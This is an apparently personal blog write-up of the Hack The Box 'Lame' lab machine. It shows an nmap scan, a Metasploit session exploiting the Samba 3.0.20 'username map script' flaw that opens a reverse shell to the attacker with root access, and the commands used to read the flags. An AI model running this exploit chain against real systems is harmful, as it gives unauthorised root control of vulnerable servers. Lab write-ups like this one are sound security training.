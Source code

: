 ```yaml
---
layout: post
title: LAME(HTB)
categories:
  - Writeup
---
```

<br>OS Linux
<br>IP: 10.10.10.3
<br>Machine Author: ch4p

**Nmap** :-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A -O <font color="BB69EC">10.10.10.3</font>
<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-16 18:17 EST
<br>Nmap scan report for <font color="BB69EC">10.10.10.3</font>
<br>Host is up (0.16s latency).
<br>Not shown: 996 filtered ports
<br>PORT STATE SERVICE VERSION
<br><font color="BB69EC">21/tcp</font> open <font color="53E100">ftp vsftpd 2.3.4</font>
<br>|_ftp-anon: <font color="53E100">Anonymous FTP login allowed</font> (FTP code 230)
<br><font color="BB69EC">22/tcp</font> <font color="53E100">open ssh OpenSSH 4.7p1</font> Debian 8ubuntu1 (protocol 2.0)
<br>| ssh-hostkey:
<br>| 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
<br>|_ 2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
<br><font color="BB69EC">139/tcp</font> open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
<br><font color="BB69EC">445/tcp</font> open netbios-ssn <font color="53E100">Samba smbd 3.0.20-Debian</font> (workgroup: WORKGROUP)
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Arris TG862G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.4.27 (92%), Linux 2.6.22 (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Supermicro IPMI BMC (Linux 2.6.24) (92%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
<br>Host script results:
<br>| smb-os-discovery:
<br>| OS: <font color="53E100">Unix (Samba 3.0.20-Debian)</font>
<br>| NetBIOS computer name:
<br>| Workgroup: WORKGROUP\x00
<br>|_ System time: 2017-12-13T13:56:42-05:00
<br>TRACEROUTE (using port 22/tcp)
<br>HOP RTT ADDRESS
<br>1 164.82 ms 10.10.*.*
<br>2 164.95 ms 10.10.10.3
<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 84.01 seconds</p>
</div>
</font>


<br>**Vulnerabilty**:- _Samba 3.0.20_
<br>**Exploit**:- [_Samba "username map script" Command Execution_](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)
 
**POC**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use <font color="53E100">exploit/multi/samba/usermap_script</font>
<br>msf exploit(<font color="red">usermap_script</font>) > set RHOST <font color="BB69EC">10.10.10.3</font>
<br>RHOST => <font color="BB69EC">10.10.10.3</font>
<br>msf exploit(<font color="red">usermap_script</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP double handler on <font color="BB69EC">10.10.*.*:4444</font> 
<br><font color="RoyalBlue">[*]</font> Accepted the first client connection...
<br><font color="RoyalBlue">[*]</font> Accepted the second client connection...
<br><font color="RoyalBlue">[*]</font> Command: echo UTiuwW6uLQ5WcJXz;
<br><font color="RoyalBlue">[*]</font> Writing to socket A
<br><font color="RoyalBlue">[*]</font> Writing to socket B
<br><font color="RoyalBlue">[*]</font> Reading from sockets...
<br><font color="RoyalBlue">[*]</font> Reading from socket B
<br><font color="RoyalBlue">[*]</font> B: "UTiuwW6uLQ5WcJXz\r\n"
<br><font color="RoyalBlue">[*]</font> Matching...
<br><font color="RoyalBlue">[*]</font> A is input...
<br><font color="RoyalBlue">[*]</font> Command shell session 1 opened <font color="BB69EC">(10.10.*.*:4444 -> 10.10.10.3:57285)</font> at 2017-12-16 22:55:59 -0500

<br>id
<br>uid=<font color="BB69EC">0(root)</font> gid=<font color="BB69EC">0(root)</font></p>
</div>
</font>

Now we have a non-interactive root shell, anyway It's optional if you really want a tty shell or not for this situation atleast and after that we are good to go and read the user and root flags.

<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>python -c 'import pty;pty.spawn("/bin/bash")'
<br>root@lame:/# cd /home
<br>cd /home
<br>root@lame:/home# ls
<br>ls
<br><font color="RoyalBlue">ftp  makis  service  user</font>
<br>root@lame:/home# cd makis
<br>cd makis
<br>root@lame:/home/makis# ls
<br>ls
<br>user.txt
<br>root@lame:/home/makis# <font color="53E100">cat user.txt</font>
<br>root@lame:/home/makis# cd /root
<br>cd /root
<br>root@lame:/root# ls
<br>ls
<br><font color="RoyalBlue">Desktop</font>  <font color="53E100">reset_logs.sh</font>  root.txt  vnc.log
<br>root@lame:/root# <font color="53E100">cat root.txt</font></p>
</div>
</font>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
